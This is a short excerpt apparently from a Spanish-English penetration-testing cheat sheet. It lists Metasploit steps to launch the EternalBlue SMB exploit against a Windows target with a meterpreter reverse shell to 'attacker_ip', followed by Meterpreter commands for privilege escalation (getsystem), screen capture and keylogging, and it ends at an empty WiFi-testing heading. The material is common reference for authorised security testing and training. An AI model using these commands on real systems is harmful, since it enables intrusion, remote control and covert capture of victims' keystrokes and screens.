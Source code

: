 ### METASPLOIT
**Objetivo:** Framework de explotación.

**Entorno:** Parrot OS

```bash
# Iniciar Metasploit
msfconsole

# Buscar exploits
search apache
search type:exploit platform:windows

# Usar exploit
use exploit/windows/smb/ms17_010_eternalblue

# Configurar
set RHOSTS target_ip
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip

# Ejecutar
exploit
```

#### METERPRETER Commands
```
# Información del sistema
sysinfo

# Procesos activos
ps

# Migrar a proceso
migrate PID

# Elevar privilegios
getsystem

# Capturar pantalla
screenshot

# Keylogger
keyscan_start
keyscan_dump
```

---

## 📱 SPECIALIZED TOOLS

### WiFi Testing
**Entorno:** Parrot OS (requiere tarjeta WiFi compatible)
